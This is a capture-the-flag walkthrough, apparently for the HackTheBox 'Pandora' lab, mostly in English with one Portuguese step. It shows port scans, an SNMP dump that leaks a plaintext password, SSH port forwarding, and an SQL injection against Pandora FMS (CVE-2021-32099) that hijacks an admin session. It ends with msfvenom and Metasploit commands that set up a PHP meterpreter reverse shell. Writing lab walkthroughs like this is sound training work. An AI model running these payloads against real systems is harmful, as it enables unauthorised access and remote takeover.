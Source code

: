 # Pandora

1. Nmap TCP and UDP port with script
````
# nmap -sS -p- pandora.htb -oG 10.10.11.136-sS
# nmap -sU -p- pandora.htb -oG 10.10.11.136-sU
````

````
# snmpwalk -v2c -c public 10.10.11.136:161 1.3.6.1.2.1.25.4.2.1 > 10.10.11.136-snmpwalk
````

~iso.3.6.1.2.1.25.4.2.1.5.864 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"~

~iso.3.6.1.2.1.25.4.2.1.5.1107 = STRING: "-u daniel -p HotelBabylon23"~

2. Login into remote server
````
# ssh daniel@10.10.11.136
````

3. Enumerates
````
daniel@pandora:~$ ss -nlpt
State          Recv-Q          Send-Q                   Local Address:Port                   Peer Address:Port         Process         
LISTEN         0               80                           127.0.0.1:3306                        0.0.0.0:*                            
LISTEN         0               4096                     127.0.0.53%lo:53                          0.0.0.0:*                            
LISTEN         0               128                            0.0.0.0:22                          0.0.0.0:*                            
LISTEN         0               511                                  *:80                                *:*                            
LISTEN         0               128                               [::]:22                             [::]:*                            
daniel@pandora:~$ curl http://127.0.0.1:80
<meta HTTP-EQUIV="REFRESH" content="0; url=/pandora_console/">
````

4. Login redirecting the remote port
````
# ssh -L80:127.0.0.1:80 daniel@10.10.11.136
````

5. Enumarates
````
v7.0NG.742_FIX_PERL2020
````
- [CVE-2021-32099](https://nvd.nist.gov/vuln/detail/CVE-2021-32099)
- [CVE-2020-5844](https://nvd.nist.gov/vuln/detail/CVE-2020-5844)

## CVE-2021-32099
6. Test the target system with malformed input values'    "   `   %    %%   --   /*   //    )    ;
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=%27%20%20%20%20%22%20%20%20`%20%20%20%%20%20%20%20%%%20%20%20--%20%20%20/*%20%20%20//%20%20%20%20)%20%20%20%20;

````sql
SQL error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use 
near '" ` % %% -- /* // ) ;' LIMIT 1' at line 1 ('SELECT * FROM tsessions_php WHERE `id_session` = '' " ` % %% -- /* // ) ;' LIMIT 1') in
/var/www/pandora/pandora_console/include/db/mysql.php on line 114
````

````sql
sqlmap -u '127.0.0.1/pandora_console/include/chart_generator.php?session_id=*' --dbms=MySQL --sql-shell
sql-shell> SELECT * FROM tsessions_php WHERE `id_session` = ''OR `data` LIKE '%id_usuario|s:5:"admin";%' [2]:
[*] id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0;, gn7p2qba6310m05qn6iom3bvdf, 1642782084
[*] id_usuario|s:5:"admin";alert_msg|a:0:{}new_chat|b:0;, hj8tgic0fv8hmmb19b3j851af5, 1642779787
````

7. Access the URL
````sql
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id='OR `data` LIKE '%id_usuario|s:5:"admin";%
````

and then your user will be logged
````
http://127.0.0.1/pandora_console/
````

## CVE-2020-5844

8. Crie o payload e inicie o multi handler

````php
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o payload.php
$ msfconsole -qx "use exploit/multi/handler; set PAYLOAD php/meterpreter/reverse_tcp; set LPORT 4444; set LHOST tun0; exploit"
````




[OID repository](http://www.oid-info.com/get/1.3.6.1.2.1.25.4.2.1.5)
